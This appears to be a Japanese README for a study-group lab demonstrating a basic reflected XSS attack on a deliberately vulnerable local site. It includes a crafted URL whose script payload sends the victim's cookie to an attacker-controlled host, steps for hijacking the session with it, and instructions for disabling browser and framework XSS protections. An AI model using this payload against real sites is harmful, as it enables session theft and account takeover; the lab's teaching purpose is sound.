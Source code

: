 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com:8000</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com:8000
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

※セッションIDをクッキーに保存する部分が未実装です・・・

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ google-chrome http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://脆弱サイト.com:8000/status?uid=%3Cscript%3Ewindow.location=%22http://localhost:5000/?cookie=%22%2bdocument.cookie%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知してscript実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ google-chrome http://脆弱サイト.com:8000/login?sid=[セッションID]
```


## 付録

### 攻撃者サイトの準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/vulnerable-sites/ex00_WhatIsXSS
$ sqlite3 db/development.db < sql/sqlite.sql
$ carton install
$ carton exec perl -Ilib script/ex00_whatisxss-server --host=[IPアドレス] --port=[ポート番号]
```

### Amon2とGoogle Chromeを脆弱にするためにわざわざやったこと

最近のブラウザやらWebアプリフレームワークやらは脆弱性対策されてるんですね．
おい! 誰だPHPの話したの!! 関係ないだろ!!!!

<dl>
  <dt>ChromeのXSS検知&防止機構を無効にする</dt>
  <dd>起動オプションに --disable-xss-auditor をつけて，サーバからのレスポンスヘッダには<a href="/sample-sites/vulnerble-sites/ex00_WhatIsXSS/lib/Web.pm#L47">X-XSS-Protectionを0に指定</a></dd>

  <dt>XslateのHTMLエスケープを無効化</dt>
  <dd><a href="/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx#L10">mark_raw 指定をする</a></dd>
</dl>
